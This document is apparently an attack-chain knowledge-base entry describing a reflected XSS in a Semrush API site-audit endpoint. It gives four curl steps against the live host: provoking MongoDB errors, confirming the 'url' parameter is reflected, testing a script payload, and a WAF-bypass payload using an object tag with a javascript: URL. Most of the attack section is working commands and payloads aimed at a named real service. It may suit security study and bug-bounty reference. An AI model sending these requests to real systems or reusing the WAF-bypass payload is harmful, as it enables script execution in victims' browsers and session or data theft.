

---
tags:
  - xss
  - reflected-xss
  - waf-bypass
  - mongodb
  - api
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-MongoDB-Error-in-Semrush-API]]'
  - '[[procedures/Verify-URL-Parameter-Reflection]]'
  - '[[procedures/Test-XSS-Payloads-Against-WAF]]'
  - '[[procedures/Bypass-WAF-for-Reflected-XSS]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:47:18.146Z'
description: >-
  Multi-stage exploitation of a reflected XSS vulnerability in the Semrush API
  by triggering MongoDB errors and bypassing WAF protections to execute
  JavaScript.
skill_level: intermediate
impact_level: high
id: 47798bf8-0a61-4e32-98e8-3c57647a52d2
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS via MongoDB Error Message in Semrush API

Multi-stage attack chain demonstrating the exploitation of a reflected XSS vulnerability in the Semrush API's site audit endpoint. The attack leverages unsanitized reflection of the 'url' parameter in MongoDB error messages, initially blocked by a WAF, but bypassed through payload fuzzing to execute arbitrary JavaScript in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for API testing

### Target Environment

- Web platform with access to Semrush API (api.semrush.com)
- No specific ports required beyond standard HTTPS (443)
- Network access to the public API endpoint

### Initial Access Requirements

- Valid project ID for the /reports/v1/projects/:id/siteaudit/page/list endpoint
- No authentication bypass needed; assumes authenticated API access if required by the endpoint

## Detailed Attack Procedures

### Step 1: Trigger MongoDB Error
procedure: [[procedures/Trigger-MongoDB-Error-in-Semrush-API]]

**Objective**: Send inputs to the endpoint to provoke a MongoDB error, exposing backend details.

**Instructions**: Target the /reports/v1/projects/:id/siteaudit/page/list endpoint with malformed inputs in the 'url' parameter to trigger database errors. Use a tool like curl to send a request:

```bash
curl -X GET "https://api.semrush.com/reports/v1/projects/YOUR_PROJECT_ID/siteaudit/page/list?url=invalid_input" -H "Authorization: Bearer YOUR_API_TOKEN"
```

**Expected Output**: HTTP response containing a MongoDB error message.

**Success Indicators**:
- MongoDB error appears in the response body
- Backend database confirmation (e.g., error stack trace mentioning MongoDB)

### Step 2: Verify Parameter Reflection
procedure: [[procedures/Verify-URL-Parameter-Reflection]]

**Objective**: Confirm that the 'url' parameter is unsanitized and reflected directly in the error output.

**Instructions**: Repeat the error-triggering request with a benign test string in the 'url' parameter and inspect the response for exact reflection:

```bash
curl -X GET "https://api.semrush.com/reports/v1/projects/YOUR_PROJECT_ID/siteaudit/page/list?url=test_reflection" -H "Authorization: Bearer YOUR_API_TOKEN"
```

**Expected Output**: Error message includes the exact string "test_reflection" from the 'url' parameter.

**Success Indicators**:
- Input string mirrored in the MongoDB error text
- No sanitization observed (e.g., HTML entities not encoded)

### Step 3: Test XSS Payloads Against WAF
procedure: [[procedures/Test-XSS-Payloads-Against-WAF]]

**Objective**: Attempt standard XSS injections to assess WAF blocking behavior.

**Instructions**: Inject common XSS payloads into the 'url' parameter and observe if they are blocked:

```bash
curl -X GET "https://api.semrush.com/reports/v1/projects/YOUR_PROJECT_ID/siteaudit/page/list?url=<script>alert(1)</script>" -H "Authorization: Bearer YOUR_API_TOKEN"
```

**Expected Output**: WAF interception, such as 403 Forbidden or sanitized response.

**Success Indicators**:
- Requests blocked or altered by WAF
- No JavaScript execution in reflected output

### Step 4: Bypass WAF for Reflected XSS
procedure: [[procedures/Bypass-WAF-for-Reflected-XSS]]

**Objective**: Fuzz payloads to evade WAF and achieve JavaScript execution via reflected XSS.

**Instructions**: Use the specific bypassing payload in the 'url' parameter:

```bash
curl -X GET "https://api.semrush.com/reports/v1/projects/YOUR_PROJECT_ID/siteaudit/page/list?url=<object data=javascript:confirm(document.domain)>" -H "Authorization: Bearer YOUR_API_TOKEN"
```

In a browser context, this should execute the JavaScript, confirming the domain.

**Expected Output**: Reflected payload executes, popping a confirm dialog with the document domain.

**Success Indicators**:
- JavaScript alert or confirm triggers
- Arbitrary code execution verified in victim browser

## Attack Chain Summary

### Key Achievements

1. Identified and triggered MongoDB errors exposing parameter reflection
2. Confirmed lack of input sanitization in error handling
3. Bypassed WAF protections through payload variation
4. Achieved reflected XSS for potential data theft or session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---
*Last updated: 2023-10-01T00:00:00Z*
